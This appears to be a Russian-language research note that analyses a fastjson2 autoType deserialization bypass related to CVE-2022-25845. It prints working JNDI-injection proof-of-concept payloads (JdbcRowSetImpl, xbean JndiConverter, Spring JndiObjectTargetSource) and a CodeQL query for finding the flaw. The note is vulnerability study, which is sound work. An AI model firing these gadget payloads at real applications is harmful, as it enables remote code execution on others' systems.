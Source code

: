 **CVE-2022-25845 (jinjava2 exnted) (Маджуга Богдан Андреевич)**

**Описание:**

В статье https://paper.seebug.org/3017/ автор рассматривает библиотеку fastjson2** на наличие уязвимсотей ее предшественника fastjson. В качестве уязвимости автор выбрал уязвимость отнаследованную от CVE-2022-25845, которая работала на fastjson версии *1.2.25-1.2.41*. В качестве таргета автор рассматривает fastjson2 версии *2.0.38*.


Первоначально автор пробует запустить уязвимый код напрямую из старой версии:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\",\"DataSourceName":\"rmi://127.0.0.1:8085/xxx\",\"AutoCommit\":\"false\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

Как и ожидалось уязвимость не сработала, по причине того, что теперь fastjson2 блокирует выполнение checkAutoType в случае если класс связан с DataSourceName. 

```
  if (ClassLoader.class.isAssignableFrom(clazz) || JDKUtils.isSQLDataSourceOrRowSet(clazz)) {
        throw new JSONException("autoType is not support. " + typeName);
  }
```

Автор предлагает легкий способ обхода данной уязвимости используя другой тип сериализуемого объекта:

```
public static void main(String[] args) {
    String poc = "{\"@type\":\"Lorg.apache.xbean.propertyeditor.JndiConverter;\",\"asText\":\"rmi://127.0.0.1:8089/test\"}";
    Object obj = JSON.parse(poc, JSONReader.Feature.UseNativeObject,
    JSONReader.Feature.SupportAutoType);
    System.out.println(obj);
}
```

При этом автор уточняет, что для данного взлома необходима отдельная зависимость, что делает ее менее критичной:

```
<dependency> 
  <groupId>org.apache.xbean</groupId> 
  <artifactId>xbean-reflect</artifactId> 
  <version>4.15</version>
</dependency>
```

Однако, автор нашел способ вызвать аналогичную уязвимость используя популярный фреймворк Spring, что вызывает необходимость к исправлению найденной уязвимости.

```
String poc3 = "{\n" +
                "    \"@type\":\"Lorg.springframework.jndi.JndiObjectTargetSource;\",\n" +
                "    \"jndiName\": \"rmi://127.0.0.1:12312/Exp\",\n" +
                "    \"jndiTemplate\": {\n" +
                "        \"@type\":\"org.springframework.jndi.JndiTemplate\",\n" +
                "        \"environment\": {\n" +
                "            \"java.naming.factory.initial\": \"com.sun.jndi.rmi.registry.RegistryContextFactory\"\n" +
                "        }\n" +
                "    }\n" +
                "}";

JndiObjectTargetSource o = (JndiObjectTargetSource) JSON.parse(poc3, JSONReader.Feature.SupportAutoType);
o.getTarget();
```

**Причины уязвимости:**

Основная причина уязвимости заключается в том, что библиотека fastjson умеет сериализовать JSON строку сразу в объект с указанным типом *@type (JSONReader.Feature.UseNativeObject)*. При этом установка аттрибута происходит через setter методы, которые ищутся по принципу ```name.startsWith("set")``` не обращая внимание на наличие аттрибута с искомым названием. Таким образом появляется возможность вызывать методы принимающие строку на вход, смотри пример:

```
package org.example;

public class DemoObject {
    public String fieldA;
    public String fieldB;

    public void setFieldA(String fieldA) {
        this.fieldA = fieldA;
    }

    public void setFieldC(String fieldC) {
        System.out.println("Setting field C: " + fieldC);
    }
}
```

Тогда следующие код:

```
    public static void main(String[] args) {
        String poc = "{\"@type\":\"org.example.DemoObject\",\"fieldA\":\"hello A\", \"fieldB\":\"hello B\", \"fieldC\":\"hello C\"}";
        DemoObject obj = (DemoObject) JSON.parse(poc,
                JSONReader.Feature.SupportAutoType);
        System.out.println(obj.fieldA);
    }
```

Приводит к следующему выводу в консоль:

```
Setting field C: hello C
hello A
```

Как мы видем аргумент fieldB не был установлен по причине отсутсвия setter-a, а метод setFieldC - был вызван несмотря на отсутствие соответствующего аттрибута.

**QLInspector**

Проанализиурем данную уязвимость используя библиотеку QLInspector. Будем использовать стандартный запрос:

```
import java
import libs.DangerousMethods
import libs.Source


private class DangerousExpression extends Expr {
  DangerousExpression() {
    ( this instanceof Call and this.(Call).getCallee() instanceof DangerousMethod ) or
    ( this instanceof LambdaExpr and this.(LambdaExpr).getExprBody().(MethodAccess).getMethod() instanceof DangerousMethod)
  }
}

private class CallsDangerousMethod extends Callable {
  CallsDangerousMethod(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this)
  }
}

private class RecursiveCallToDangerousMethod extends Callable {
  RecursiveCallToDangerousMethod(){

    not this instanceof Sanitizer and

    /*
    /* can be commented for more results
    */
    (
      getDeclaringType().getASupertype*() instanceof TypeSerializable or
      this.isStatic()
    )

    and

    (
     this instanceof CallsDangerousMethod or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe))
    )
  }

    /*
    /* linking a RecursiveCallToDangerousMethod to a DangerousExpression
    */
    DangerousExpression getDangerousExpression(){
    exists(DangerousExpression de | de.getEnclosingCallable() = this and result = de ) or
    exists(RecursiveCallToDangerousMethod unsafe | this.polyCalls(unsafe) and result = unsafe.(RecursiveCallToDangerousMethod).getDangerousExpression())
    }
}


/*
*
* global filter to block function in the chain,
* method names can be added when you found a false positive
*
*/
private class Sanitizer extends Callable {
  Sanitizer(){
    hasName([""])
  }
}


query predicate edges(ControlFlowNode node1, ControlFlowNode node2) {
    (node1.(MethodAccess).getMethod().getAPossibleImplementation() = node2 and node2 instanceof RecursiveCallToDangerousMethod) or
    (node2.(MethodAccess).getEnclosingCallable() = node1 and node1 instanceof RecursiveCallToDangerousMethod)
}

predicate hasCalls(RecursiveCallToDangerousMethod c0, RecursiveCallToDangerousMethod c1) {
    c0.polyCalls(c1) or exists(RecursiveCallToDangerousMethod unsafe | c0.polyCalls(unsafe) and hasCalls(unsafe, c1))
}

from Callable source, Callable sink
where sink instanceof CallsDangerousMethod
and source.polyCalls(sink)
and sink.getFile().toString().regexpMatch(".*ObjectReaderImplObject.java")
select  source, sink, sink.getFile()
```


